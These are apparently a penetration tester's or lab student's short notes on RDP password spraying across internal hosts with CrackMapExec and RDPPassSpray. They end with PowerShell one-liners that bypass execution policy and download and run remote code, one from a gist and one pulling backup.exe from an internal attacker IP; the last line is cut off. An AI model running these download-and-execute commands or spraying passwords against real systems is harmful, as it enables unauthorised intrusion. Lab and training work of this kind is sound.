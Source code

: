 - Crackmap was not working the way I felt comfortable with in regards to RDP password spraying. 
- I took my internal IP list and found which IPs had RDP open. Need to tinker with the RDPPassSpray script to run against all IPs in a given list. But for now...I tried each IP individually
- ![[Pasted image 20230907124537.png]]
- Crackmap did not pick up on this and not sure why, so need to troubleshoot or shine a light on the usage of multiple tools trying to attack the same vector
- ![[Pasted image 20230907124639.png]]
```bash
powershell -ExecutionPolicy Bypass -Command "[scriptblock]::Create((Invoke-WebRequest "https://gist.githubusercontent.com/ChrisKibble/afea9880a184cd2b2445e5d8408715af/raw/41cbbf042af07136132f09395e4664ffab33e310/gistfile1.txt").Content).Invoke();"
```

-ExecutionPolicy Bypass -Command "[scriptblock]::Create((Invoke-WebRequest "http://192.168.45.241/backup.exe").Content).Invoke();"